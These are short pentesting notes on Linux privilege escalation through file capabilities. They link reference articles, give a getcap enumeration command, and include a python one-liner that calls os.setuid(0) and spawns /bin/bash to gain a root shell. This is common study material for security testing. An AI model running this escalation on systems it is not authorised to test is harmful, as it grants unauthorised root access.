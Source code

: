 https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/
https://mn3m.info/posts/suid-vs-capabilities/
https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099

```bash
getcap -r / 2>/dev/null
```
Gets current capabilities set

Example output:
```bash
/usr/bin/python2.6 = cap_setuid+ep
```
ep means all capabilities enabled

Allows python to run as root without sudo

Capabilities similar to SUID

```bash
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
Runs python using capabilities set allows us to set our current uid and run /bin/bash as the set uid

